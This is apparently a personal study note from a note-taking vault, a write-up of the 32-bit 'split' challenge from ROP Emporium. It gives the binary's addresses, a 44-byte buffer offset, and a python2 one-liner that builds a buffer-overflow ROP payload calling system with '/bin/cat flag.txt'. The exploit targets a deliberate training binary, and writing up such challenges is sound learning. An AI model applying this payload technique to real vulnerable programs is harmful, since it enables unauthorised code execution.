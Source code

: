 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[split]]
### Contents
***
- [Task Description](02%20-%20split.md#Task%20Description)
- [32 bit](02%20-%20split.md#32%20bit)

### Task Description
***
The elements that allowed you to complete ret2win are still present, they've just been split apart.  
Find them and recombine them using a short ROP chain.

### 32 bit
***
File Checks
32 bit ELF with no canaries
To get the flag we need to create a chain where it first calls system and then /bin/cat flag.txt
/bin/cat flag.txt has a memory addr of 0x804a030
and for the system call it is 0x0804861a
The buffer size is 44 bytes

Generate the payload
```bash
python2 -c 'print "A"*44 +"\x1a\x86\x04\x08"+"\x30\xa0\x04\x08"' > payload
```

Then pass it in and get the flag
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 11-10-2022
Last modified date: Tuesday 11th October 2022
***
